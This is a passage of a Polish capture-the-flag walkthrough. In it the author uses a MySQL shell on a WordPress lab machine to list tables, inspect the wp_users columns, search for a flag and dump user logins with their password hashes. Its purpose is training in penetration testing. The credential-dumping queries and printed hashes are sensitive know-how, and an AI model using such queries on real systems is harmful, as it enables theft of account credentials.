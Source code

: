 ```
| wp_term_taxonomy           |
| wp_termmeta                |
| wp_terms                   |
| wp_usermeta                |
| wp_users                   |
+----------------------------+
15 rows in set (0.01 sec)
```
Wyświetlamy informacje o kolumnach w tabeli `wp_users`:<br>
`show columns from wp_users;`

```
mysql> show columns from wp_users;
show columns from wp_users;
+---------------------+---------------------+------+-----+---------------------+----------------+
| Field               | Type                | Null | Key | Default             | Extra          |
+---------------------+---------------------+------+-----+---------------------+----------------+
| ID                  | bigint(20) unsigned | NO   | PRI | NULL                | auto_increment |
| user_login          | varchar(60)         | NO   | MUL |                     |                |
| user_pass           | varchar(255)        | NO   |     |                     |                |
| user_nicename       | varchar(50)         | NO   | MUL |                     |                |
| user_email          | varchar(100)        | NO   | MUL |                     |                |
| user_url            | varchar(100)        | NO   |     |                     |                |
| user_registered     | datetime            | NO   |     | 0000-00-00 00:00:00 |                |
| user_activation_key | varchar(255)        | NO   |     |                     |                |
| user_status         | int(11)             | NO   |     | 0                   |                |
| display_name        | varchar(250)        | NO   |     |                     |                |
| flag2               | text                | NO   |     | NULL                |                |
+---------------------+---------------------+------+-----+---------------------+----------------+
11 rows in set (0.01 sec)
```

Wygląda na to, że mamy kolejną flagę
```
mysql> select flag2 from wp_users;
select flag2 from wp_users;
+-------+
| flag2 |
+-------+
|       |
|       |
+-------+
2 rows in set (0.00 sec)
```

Niestety nie tym razem :( W zamian za to poszukajmy loginów i haseł istniejących użytkowników:
`select user_login, user_pass from wp_users;`

W efekcie dostajemy:

```
mysql> select user_login, user_pass from wp_users;
select user_login, user_pass from wp_users;
+-------------+------------------------------------+
| user_login  | user_pass                          |
+-------------+------------------------------------+
| unclestinky | $P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41 |
| admin       | $P$BgnU3VLAv.RWd3rdrkfVIuQr6mFvpd/ |
+-------------+------------------------------------+
2 rows in set (0.01 sec)
```
Warto przypomnieć, że znamy już hasło użytkownika _admin_, teraz przyda nam się komplet danych dla _unclestinky_
